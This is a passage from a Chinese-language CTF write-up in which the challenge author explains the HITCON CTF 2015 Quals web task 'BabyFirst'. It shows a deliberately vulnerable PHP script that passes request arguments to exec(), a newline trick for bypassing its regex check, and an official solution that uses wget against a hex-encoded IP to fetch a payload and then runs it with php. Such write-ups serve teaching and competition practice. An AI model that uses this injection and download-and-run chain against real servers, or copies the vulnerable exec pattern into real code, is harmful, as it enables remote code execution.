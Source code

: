 # HITCON CTF 2015 Quals Web 出題心得

作者:`orange@chroot.org`  
Blog:[http://blog.orange.tw](http://blog.orange.tw/)

![cover](http://drops.javaweb.org/uploads/images/0310a670a917e66d4f6edd5d831f82ff281fa7a9.jpg)

p.s. 相關代碼皆放在 Github 上，有興趣研究之同學可以先看看代碼嘗試解解看後在敘述!

寫在 HITCON CTF 2015 Quals 之後  
作為出題團隊的一員，不得不說這次的難度真的不是有點高而已XD  
不過就身為 DEFCON 種子賽我覺得可以說是名符其實! :)

這次負責了所有的 Web 題目  
私心來說都是自信之作，把自己最近研究的一些東西出成題目XD  
就參賽者反應來說，讓他們在解題時覺得很難但解出後會有「原來如此」、「還可以這樣玩」的感覺是我這次主要出題的目的XD

0x01 100 BabyFirst (33 隊解)
==========================

* * *

```
<?php
    highlight_file(__FILE__);
    $dir = 'sandbox/' . $_SERVER['REMOTE_ADDR'];
    if ( !file_exists($dir) )
        mkdir($dir);
    chdir($dir);
    $args = $_GET['args'];
    for ( $i=0; $i<count($args); $i++ ){
        if ( !preg_match('/^\w+$/', $args[$i]) )
            exit();
    }
    exec("/bin/orange " . implode(" ", $args));
?>

```

> [https://gist.github.com/orangetw/cb3487e47d7aaaea4692](https://gist.github.com/orangetw/cb3487e47d7aaaea4692)

作為本次 Web 最簡單的題目，純代碼分析並且只有十五行程式碼而已  
在比賽開始後兩小時才有人解出

簡單使用`\n`就可以繞過常見正規表示式沒有`match multiline`的問題， 不過難點在於可以`Command Injection`但是指令都限制在是`a-zA-Z0-9_`  
這也是最有趣的地方，每個隊伍的想法都不一樣所以會有很多種解法!

自己的官方解法是

```
mkdir orange
cd orange
wget HEXED_IP
tar cvf payload orange
php payload

```

